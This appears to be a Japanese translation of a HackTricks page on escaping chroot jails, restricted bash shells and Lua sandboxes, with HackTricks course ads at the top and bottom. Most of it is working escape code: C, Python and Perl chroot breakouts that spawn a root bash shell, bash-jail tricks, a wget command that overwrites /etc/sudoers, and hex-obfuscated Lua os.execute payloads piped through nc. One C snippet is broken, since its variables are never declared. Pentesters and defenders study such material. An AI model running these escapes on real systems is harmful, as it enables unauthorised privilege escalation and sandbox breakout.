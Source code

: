 # 制限された環境からの脱出

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して**ハッキングテクニックを共有**してください。

</details>
{% endhint %}

## **GTFOBins**

**"Shell"プロパティを持つバイナリを実行できるかどうかを調べる** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **で検索**

## Chrootの脱出

[wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations)から: chrootメカニズムは、特権を持つ（root）ユーザーによる意図的な改ざんに対抗するためには**意図されていません**。ほとんどのシステムでは、chrootコンテキストは適切にスタックされず、特権を持つchrootedプログラムは**2番目のchrootを実行して脱出する**ことができます。\
通常、これは脱出するためにchroot内でrootである必要があることを意味します。

{% hint style="success" %}
**ツール** [**chw00t**](https://github.com/earthquake/chw00t) は、以下のシナリオを悪用して`chroot`から脱出するために作成されました。
{% endhint %}

### Root + CWD

{% hint style="warning" %}
chroot内で**root**である場合、**別のchroot**を作成して**脱出**することができます。これはLinuxでは2つのchrootが同居できないためです。つまり、新しいフォルダを作成し、その新しいフォルダで**新しいchroot**を作成すると、**新しいchrootの外側**になり、その結果、FS内にいることになります。

通常、chrootは作業ディレクトリを指定されたディレクトリに移動させないため、chrootを作成できますが、その外側にいることができます。
{% endhint %}

通常、chrootジェイル内には`chroot`バイナリが見つからない場合がありますが、バイナリをコンパイル、アップロード、実行することができます:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### ルート + 保存されたfd

{% hint style="warning" %}
これは前のケースと似ていますが、この場合、**攻撃者は現在のディレクトリへのファイルディスクリプタを保存**し、その後**新しいフォルダ内でchrootを作成**します。最後に、彼はchrootの外でその**FDにアクセス**できるため、それにアクセスして**脱出**します。
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FDはUnixドメインソケットを介して渡すことができるので:

* 子プロセスを作成（fork）
* 親と子が通信できるようにUDSを作成
* 子プロセスで異なるフォルダにchrootを実行
* 親プロセスで、新しい子プロセスのchrootの外にあるフォルダのFDを作成
* UDSを使用してそのFDを子プロセスに渡す
* 子プロセスはそのFDにchdirし、chrootの外にあるため、牢獄から脱出します
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* ルートデバイス（/）をchroot内のディレクトリにマウント
* そのディレクトリにchroot
これはLinuxで可能です
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* procfsをchroot内のディレクトリにマウント（まだマウントされていない場合）
* /proc/1/rootのように異なるルート/cwdエントリを持つpidを探す
* そのエントリにchroot
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* フォーク（子プロセス）を作成し、FS内の異なるフォルダにchrootし、そのフォルダにCDします
* 親プロセスから、子プロセスがいるフォルダを、子プロセスのchrootの前のフォルダに移動します
* この子プロセスは、chrootの外にいることに気づくでしょう
{% endhint %}

### ptrace

{% hint style="warning" %}
* 以前はユーザーが自分自身のプロセスを自分自身のプロセスからデバッグできましたが、これはデフォルトではもはや可能ではありません
* とにかく、可能であれば、プロセスにptraceしてその中でシェルコードを実行できます（[この例を参照](linux-capabilities.md#cap\_sys\_ptrace)）。
{% endhint %}

## Bash Jails

### Enumeration

牢獄に関する情報を取得します:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### PATHの変更

PATH環境変数を変更できるかどうかを確認します
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### vimの使用
```bash
:set shell=/bin/sh
:shell
```
### スクリプトの作成

_/bin/bash_ を内容とする実行可能ファイルを作成できるかどうかを確認します。
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### SSH経由でbashを取得

SSH経由でアクセスしている場合、次のトリックを使用してbashシェルを実行できます：
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### 宣言
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

例えばsudoersファイルを上書きすることができます。
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### その他のトリック

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io)\
**興味深いページも次のとおりです:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Jails

Pythonジェイルからの脱出に関するトリックは、次のページにあります:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Jails

このページでは、Lua内でアクセス可能なグローバル関数を見つけることができます: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**コマンド実行付きのEval:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
いくつかのトリックを**ドットを使用せずにライブラリの関数を呼び出す方法**：
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
列挙されたライブラリの機能：

```html
<ol>
<li>関数1</li>
<li>関数2</li>
<li>関数3</li>
</ol>
```
```bash
for k,v in pairs(string) do print(k,v) end
```
注意してください。**異なるLua環境で前のワンライナーを実行するたびに、関数の順序が変わります**。したがって、特定の関数を実行する必要がある場合は、異なるLua環境をロードしてleライブラリの最初の関数を呼び出すブルートフォース攻撃を実行できます：
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**インタラクティブなluaシェルを取得する**: もし制限されたluaシェル内にいる場合、以下を呼び出すことで新しいluaシェル（そして恐らく制限のないもの）を取得できます。
```bash
debug.debug()
```
## 参考文献

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (スライド: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のGitHubリポジトリにPRを提出して、ハッキングトリックを共有してください。

</details>
{% endhint %}
